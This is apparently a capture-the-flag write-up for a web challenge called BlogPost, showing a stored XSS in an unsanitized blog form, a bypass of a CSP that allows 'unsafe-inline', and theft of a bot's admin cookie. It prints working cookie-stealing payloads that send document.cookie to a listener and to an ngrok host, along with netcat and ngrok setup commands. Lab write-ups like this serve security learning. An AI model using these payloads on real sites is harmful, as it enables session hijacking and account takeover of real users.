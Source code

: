 # Web BlogPost

![Blog Post Challenge](img/Challenge.PNG)

## Summary

Blogpost is a easy web challenge that one of the challenges that took most of my time in the CTF. Finding the foothold was an interesting process but this challenge has reminded me not to create a tunnel vision when it comes to hacking and ensuring that I check all files to have a good understanding what the challenge is. (I did not realize about the bot.js and basically had troubles stealing the cookie itself)

## Table of Contents
1. [Setting up environment]
2. [Enumeration]
3. [Foothold]
4. [Exploitation]
	1.[CSP]
	2.[Using NGROK]

## Setting up the environment

![When unzipped, there should be the docker environments to run](img/settingupchallenge.PNG)

The challenge developers were kind enough to create the environment for individuals to run on their local machine. To create the environment itself, you should have docker installed in your machine. Just a little google can help you (depending on your machine) but here was how I installed it; [Link](https://www.kali.org/docs/containers/installing-docker-on-kali/)

## Enumeration

Playing around with the website and looking at the sourcecode, we have a rough understand of what the website has and the general flow for normal users; 

```
Goes to Homepage
Login
	If no user in website
		make user
	Go to Blog, server takes content from blog
	make own post etc
```

Going through the sourcecodes itself, we also understand that there'll be a bot that actively crawls through the blogpost with the required cookie we have to steal in bot.js

```javascript
export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "REDACTED",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
````

## Getting the foothold

![Form has no sanitisation](img/formsjsnosanitisation.PNG)


Looking through the sourcecode, there is no form of sanitization when it comes to posting. With that in mind, let's try it with a simple XSS. If it works, there'll be our foothole for this challenge.

```javascript
<script>console.log("test")</script>
```

![XSS FootHold](img/XSSFootHold.PNG)

![XSS Success](img/XSSSuccess.PNG)

And it does work! Now with our foothold, what can we do with it?

## Exploitation
During our enumeration, we understand that'll be a bot the crawls through the blog site itself. Hence our objective is to use XSS to steal the "cookie" of the admin which will hold our flag. I made a simple XSS payload that'll force the website to send their user cookie to my server as shown below;

- Payload
```javascript
<script>
document.write('<img src="http://127.0.0.1:8000/?'+document.cookie+'"/>');
</script> 
//Note that the ip address should be your ip address that you want to take the cookies
```
[^1]

- On Our machine (to receive the cookies)
```bash
python -m SimpleHTTPServer
```

However, we encountered the next obstacle in the challenge. The challenge is equipped with content security policy (CSP) with doesn't allow us to steal the cookie as shown below.

![CSP Shenanigans](img/CSPBlockage.PNG)

### What is CSP? ~~and why is it a pain~~

> Content Security Policy ([CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution. [^2]

It is a good mitigation practise but with every mitigation, there'll be ways where developers configure such mitigations wrongly. We can verify their policy (found in /src/app/index.js) using [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  

![CSP Bad Configuration](img/CSPMisconfiguration.PNG)

Hence with the mindset of "hey they probably misconfigured something", we can see that they allowed 'unsafe-inline' which can be our proper foothold for this obstacle. Implementing it in CSP is effectively disabling the important part of CSP. You are allowing javascript to run in the XSS. [^3] Hence with that in mind, let us find a payload to bypass it.

```javascript
"/><script>console.log("bypass works");</script>
```
[^4] 

![CSP Bypass Works](img/bypasstestWorks.PNG)

It does work, now lets steal the bot's cookie

### Using NGROK
One of the problems which I faced was getting the cookie itself. For some reason, I was only receiving my cookie rather than the bot's cookie. After thinkering around and accidentally solving Blogpost 2 (woops), I learn about [ngrok](https://ngrok.com/). The idea is being able to push localhost apps to the internet with a hostname easily. In this case, I'll be using it to receive the cookie instantly. Thanks John Hammond for the idea as well. [^5]

Setting up ngrok, which will give us our forward hostname
```
ngrok http 9000
```

![Ngork Hostname Output](img/ngrokStuff.PNG)

Setting up listening on localhost
```
nc -nlvp 9000
```
Payload for our shenanigans
```
"/><script>document.location='https://16ba-118-189-213-163.ap.ngrok.io/?c='+document.cookie;</script>
```

This will give us the cookie which is the aim of the challenge! 

![Flag Here!](img/XSSCSPBypassFlag.PNG)



[^1]:[Simple XSS Cookie Stealer](https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/)
[^2]:[What is CSP?](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
[^3]:[unsafe-inline is dumb](https://csper.io/blog/no-more-unsafe-inline)
[^4]:[unsafe-inline bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-inline)
[^5]:[John's Video on CSP](https://www.youtube.com/watch?v=uU_tvQPCBUo)